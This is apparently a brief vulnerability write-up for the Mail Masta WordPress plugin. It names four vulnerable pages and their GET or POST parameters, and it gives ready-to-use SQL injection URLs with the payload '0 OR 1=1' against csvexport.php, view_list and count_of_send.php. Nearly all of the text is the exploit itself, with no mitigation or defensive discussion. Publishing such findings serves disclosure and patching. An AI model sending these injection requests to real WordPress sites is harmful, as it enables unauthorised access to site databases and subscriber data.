 Wordpress-Plugin-Mail-Masta-SQL-Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php

GET Parameter: list_id

http://<wordpress application>/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires authentication to Wordpress admin)

GET Parameter: filter_list

http://<wordpress application>/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)

POST Parameter: camp_id

http://<wordpress application>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires authentication to Wordpress admin)

POST Parameter: list_id
